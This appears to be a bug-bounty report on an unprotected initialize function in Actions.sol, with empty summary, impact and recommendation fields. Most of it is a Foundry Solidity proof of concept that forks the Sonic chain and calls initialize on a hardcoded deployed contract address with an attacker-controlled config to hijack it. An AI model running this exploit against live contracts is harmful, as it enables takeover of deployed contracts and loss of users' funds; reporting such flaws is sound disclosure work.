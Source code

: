 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ High

_Target:_


**Summary:**


**Impact:**


**Recommendation:** 


**Proof Of Concept (POC)**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISiloConfig {
    struct ConfigData {
        address hookReceiver;
        address silo;
    }

    function getConfig(address silo) external view returns (ConfigData memory);
}

interface IActions {
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver);
}

contract MaliciousSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0xdeadbeef),  // just test value
            silo: address(0x12345678)          // just test value
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04;

    MaliciousSiloConfig maliciousConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        // deploy mock silo config
        maliciousConfig = new MaliciousSiloConfig();
    }

    function test_Initialize() public {
        // try to initialize with attacker-controlled config
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                maliciousConfig
            )
        );

        require(success, string(data));
    }
}
```



**PoC Output:**

![PoC](https://github.com/user-attachments/assets/c6ea656d-9920-4c57-81a8-05b07e3ccdeb)
